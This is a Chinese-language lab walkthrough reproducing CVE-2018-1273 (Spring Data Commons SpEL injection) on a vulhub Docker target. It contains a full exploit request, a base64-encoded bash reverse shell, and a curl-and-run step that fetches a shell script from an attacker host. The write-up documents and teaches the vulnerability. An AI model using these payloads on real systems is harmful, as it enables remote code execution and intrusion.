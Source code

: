 # Spring Data Commons-远程命令执行漏洞（CVE-2018-1273）

### 0x00 前言

Spring Data是一个用于简化数据库访问，并支持云服务的开源框架，Spring Data Commons是Spring Data下所有子项目共享的基础框架。Spring Data Commons 在2.0.5及以前版本中，存在一处SpEL表达式注入漏洞，攻击者可以注入恶意SpEL表达式以执行任意命令。

**影响版本：**

```
Spring Data Commons 1.13 - 1.13.10 (Ingalls SR10)
Spring Data REST 2.6 - 2.6.10 (Ingalls SR10)
Spring Data Commons 2.0 - 2.0.5 (Kay SR5)
Spring Data REST 3.0 - 3.0.5 (Kay SR5)
```

### 0x01 环境搭建

这里使用vulhub漏洞靶场

```
cd /opt/vulhub/spring/CVE-2018-1273
docker-compose up -d
```

![image-20230330232347221](https://s2.loli.net/2023/03/30/QyZv9HXxGmgC34O.png)

### 0x02 复现步骤

1、准备POC

```
POST /users?page=&size=5 HTTP/1.1
Host: your_ip:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Referer: http://your_ip:8080/users
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 124

username[#this.getClass().forName("java.lang.Runtime").getRuntime().exec("touch /tmp/success")]=&password=&repeatedPassword=
```

exec中的命令可根据需要自行修改，注意这里的Host和Referer字段都需要修改

2、使用burpsuite改包后转发

![image-20230330233615388](https://s2.loli.net/2023/03/30/RvFunit9Al5cQgU.png)

3、不获取shell怎么能叫利用成功呢

```shell
# 这里反弹shell 发现有等号可能会失败
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEyLjE1Mi81NTU1IDA+JjE=}|{base64,-d}|{bash,-i}
```

换个思路，在自己的服务器上创建一个shell脚本，脚本里执行反弹命令

![image-20230331150625520](https://s2.loli.net/2023/03/31/AKLSicRNYJG624V.png)

```shell
# 开启http服务
python3 -m http.server 8080
# 利用curl下载shell脚本
curl -o /tmp/shell.sh http://192.168.12.152:8080/reshell.sh
```

![image-20230331151655366](https://s2.loli.net/2023/03/31/CNplXZwOQPr7EtV.png)

```shell
# 运行下载的reshell.sh
bash /tmp/shell.sh
```

![image-20230331151845369](https://s2.loli.net/2023/03/31/bKsXi4oTYV3rNFg.png)

### 0x03 修复建议

1、及时更新官方最新补丁

